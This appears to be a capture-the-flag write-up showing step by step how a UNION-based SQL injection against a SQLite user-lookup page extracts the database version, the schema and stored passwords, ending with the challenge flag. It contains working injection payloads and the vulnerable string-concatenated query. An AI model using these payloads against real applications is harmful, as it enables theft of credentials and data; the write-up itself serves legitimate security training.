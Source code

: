 ```yaml
---
custom_edit_url: null
---
```


> Select the user by ID you wish to view

![1](https://github.com/Kunull/Write-ups/assets/110326359/6a959b03-a547-4541-905b-a2a9d80c4848)

Let's click on the `Submit Query` button.

![2](https://github.com/Kunull/Write-ups/assets/110326359/fdd16ff0-d37f-44e2-b1db-91355a5734fb)

Reading the source code, we can see that the database being used is SQLite and our input is being inserted within the following query:

![3](https://github.com/Kunull/Write-ups/assets/110326359/1742de8f-980c-4496-86c4-342d14b2d981)

```sql
SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1
```

## SQL Injection

In order to retrieve the flag, we first need to retrieve the table name. We can refer this [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) list.

### Extracting SQLite version

The SQLite version can be retrieved using the following query:

```sql
SELECT sqlite_version();
```

Since the original `SELECT` statement selects two columns, we need to do the same in our `UNION` query.

If we provide the following input:

```
1 UNION SELECT Null, sqlite_version();
```

The resultant query will be:

```sql
SELECT id,username FROM users WHERE id=1 UNION SELECT Null, sqlite_version(); LIMIT 1
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/19852d2c-fdd7-4314-b30a-317dfa687674)

The version of SQLite being used is `3.27.2`.

### Extracting database structure

For SQLite versions `3.33.0` and previous, the `sqlite_master` table contains the schema for the database including information about all the tables, indexes, views, and triggers that exist in the database.

```sql
SELECT sql FROM sqlite_master
```

If we provide the following input:

```
1 UNION SELECT Null, sql FROM sqlite_master;
```

The resultant query becomes:

```sql
SELECT id,username FROM users WHERE id=1 UNION SELECT Null, sql FROM sqlite_master; LIMIT 1
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/e4d213c2-8870-4a0e-88be-584162fcd0a5)

There is a `users` table which has three columns: `id`, `username` and `password`.

### Extracting the flag

Now that we know the table name is `users`, we can easily retrieve the password from the table.

If we provide the following input:

```
1 UNION SELECT id, password FROM users;
```

The resultant query becomes:

```
SELECT id,username FROM users WHERE id=1 UNION SELECT id, password FROM users; LIMIT 1
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/76b1488a-e890-45b5-8fc7-d4f598288910)

## Flag

```
WEBSEC{Simple_SQLite_Injection}
```
